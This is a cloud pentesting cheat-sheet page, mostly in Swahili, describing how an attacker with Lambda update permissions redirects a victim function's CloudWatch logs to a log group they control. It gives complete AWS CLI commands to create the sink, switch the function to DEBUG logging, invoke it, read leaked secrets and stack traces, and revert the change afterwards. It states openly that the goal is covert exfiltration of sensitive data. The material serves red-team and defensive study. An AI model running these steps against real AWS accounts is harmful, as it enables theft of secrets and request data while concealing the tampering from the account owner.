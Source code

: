 # AWS Lambda – Log Siphon via LoggingConfig.LogGroup Redirection

{{#include ../../../../banners/hacktricks-training.md}}

Tumia vibaya vigezo vya logging vya hali ya juu vya `lambda:UpdateFunctionConfiguration` ili kuyaelekeza tena logi za function kwenye CloudWatch Logs log group iliyochaguliwa na mshambuliaji. Hii inafanya kazi bila kubadilisha code au execution role (matawi mengi ya Lambda tayari yanajumuisha `logs:CreateLogGroup/CreateLogStream/PutLogEvents` kupitia `AWSLambdaBasicExecutionRole`). Ikiwa function inachapisha secrets/request bodies au inashindwa (crash) na stack traces, unaweza kuzikusanya kutoka kwenye log group mpya.

## Ruhusa zinazohitajika
- lambda:UpdateFunctionConfiguration
- lambda:GetFunctionConfiguration
- lambda:InvokeFunction (au kutegemea triggers zilizopo)
- logs:CreateLogGroup (sio lazima mara nyingi ikiwa role ya function ina)
- logs:FilterLogEvents (kusoma events)

## Hatua
1) Unda sink log group
```
aws logs create-log-group --log-group-name "/aws/hacktricks/ht-log-sink" --region us-east-1 || true
```
2) Elekeza upya target function logs
```
aws lambda update-function-configuration \
--function-name <TARGET_FN> \
--logging-config LogGroup=/aws/hacktricks/ht-log-sink,LogFormat=JSON,ApplicationLogLevel=DEBUG \
--region us-east-1
```
Subiri hadi `LastUpdateStatus` iwe `Successful`:
```
aws lambda get-function-configuration --function-name <TARGET_FN> \
--query LastUpdateStatus --output text
```
3) Iitisha na usome kutoka kwenye sink
```
aws lambda invoke --function-name <TARGET_FN> /tmp/out.json --payload '{"ht":"log"}' --region us-east-1 >/dev/null
sleep 5
aws logs filter-log-events --log-group-name "/aws/hacktricks/ht-log-sink" --limit 50 --region us-east-1 --query 'events[].message' --output text
```
## Athari
- Kuelekeza kwa siri application/system logs zote kwenye log group unayodhibiti, ukiepuka matarajio kwamba logs zitafika tu katika `/aws/lambda/<fn>`.
- Exfiltrate data nyeti zilizochapishwa na function au zilizoonekana katika errors.

## Usafishaji
```
aws lambda update-function-configuration --function-name <TARGET_FN> \
--logging-config LogGroup=/aws/lambda/<TARGET_FN>,LogFormat=Text,ApplicationLogLevel=INFO \
--region us-east-1 || true
```
## Vidokezo
- Udhibiti wa logging ni sehemu ya Lambda’s `LoggingConfig` (LogGroup, LogFormat, ApplicationLogLevel, SystemLogLevel).
- Kwa chaguo-msingi, Lambda hutuma logs kwenye `/aws/lambda/<function>`, lakini unaweza kuelekeza kwa jina lolote la log group; Lambda (au execution role) itaunda ikiwa itaruhusiwa.

{{#include ../../../../banners/hacktricks-training.md}}
